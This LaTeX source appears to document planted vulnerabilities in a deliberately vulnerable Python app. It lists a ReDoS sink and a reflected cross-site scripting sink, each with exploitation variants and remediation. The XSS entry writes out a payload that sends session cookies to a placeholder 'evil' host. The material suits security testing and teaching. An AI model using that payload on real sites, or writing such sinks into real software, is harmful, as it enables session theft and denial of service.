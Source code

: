 \documentclass[11pt,a4paper]{article}
\begin{document}
\vspace{4pt}\hrule\vspace{6pt}
\subsection{VULN-11: CWE-1333: Inefficient Regular Expression (ReDoS)}
\noindent\textbf{Location:} \texttt{src/vulnapp/injection\_vulns.py}, line 75 \quad \textbf{Rule:} \texttt{python/redos} \quad \textbf{Severity:} 8.0
\\ \textbf{Reference:} \url{https://cwe.mitre.org/data/definitions/1333.html}

\noindent\textbf{Planted sink:}
\begin{lstlisting}
return re.match(user_pattern, text)
\end{lstlisting}
\noindent\textbf{What it is.} Inefficient regex enabling ReDoS (catastrophic backtracking).

\noindent\textbf{Exploitation variants.}
\begin{itemize}[leftmargin=1.4em,itemsep=1pt,topsep=2pt]
\item Send crafted input that makes the regex backtrack exponentially, pinning CPU (DoS).
\end{itemize}
\noindent\textbf{Remediation.} Use linear-time regex/engines, bound input, avoid nested quantifiers.

\vspace{4pt}\hrule\vspace{6pt}
\subsection{VULN-12: CWE-79: Cross-Site Scripting}
\noindent\textbf{Location:} \texttt{src/vulnapp/web\_vulns.py}, line 12 \quad \textbf{Rule:} \texttt{python/cross-site-scripting} \quad \textbf{Severity:} 8.0
\\ \textbf{Reference:} \url{https://cwe.mitre.org/data/definitions/79.html}

\noindent\textbf{Planted sink:}
\begin{lstlisting}
return Response("<h1>Hello " + name + "</h1>", mimetype="text/html")
\end{lstlisting}
\noindent\textbf{What it is.} Cross-site scripting: untrusted input is reflected into HTML/JS without encoding.

\noindent\textbf{Exploitation variants.}
\begin{itemize}[leftmargin=1.4em,itemsep=1pt,topsep=2pt]
\item Reflected: `?q=<script>document.location='//evil/'+document.cookie</script>` to steal sessions.
\item Use event handlers/`<img onerror>` when `<script>` is filtered.
\item Escalate to keylogging, CSRF token theft, or full account takeover.
\end{itemize}
\noindent\textbf{Remediation.} Context-aware output encoding (HTML/attr/JS/URL); use a template engine that auto-escapes and set CSP.
\end{document}

